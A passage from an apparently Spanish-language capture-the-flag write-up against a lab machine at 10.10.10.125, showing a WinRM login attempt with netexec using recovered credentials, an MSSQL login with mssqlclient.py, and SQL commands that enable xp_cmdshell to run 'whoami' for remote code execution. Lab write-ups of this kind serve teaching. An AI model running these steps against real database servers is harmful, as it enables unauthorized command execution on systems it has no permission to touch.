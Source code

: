 Probaremos de intentar revisar si tenemos acceso al WinRM con este nuevo usuario, sin exito tampoco.

```bash
netexec winrm 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
```

<figure><img src="../../../.gitbook/assets/997_vmware_joPjUQTQpM.png" alt=""><figcaption></figcaption></figure>

## MSSQL service connetion

Como esta cuenta parece ser la cuenta de servicio de MSSQL, probaremos de acceder al servicio con dichas credenciales. Comprobamos que también ganamos acceso con dicho usuario.

```bash
mssqlclient.py WORKGROUP/mssql-svc@10.10.10.125 -windows-auth 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/998_vmware_yZ3Bb5z0VF.png" alt=""><figcaption></figcaption></figure>

### Enabling xp\_cmdshell component in MSSQL service (RCE)

Con el usuario anterior que probamos no teníamos acceso a habilitar el componente **xp\_cmdshell**, probaremos con este usuario de habilitar el componente.

Comprobamos que podemos habilitarlo y efectuar un RCE (Remote Code Execution)

```sql
SP_CONFIGURE "show advanced options", 1

RECONFIGURE

SP_CONFIGURE "xp_cmdshell", 1

RECONFIGURE

xp_cmdshell "whoami"
```
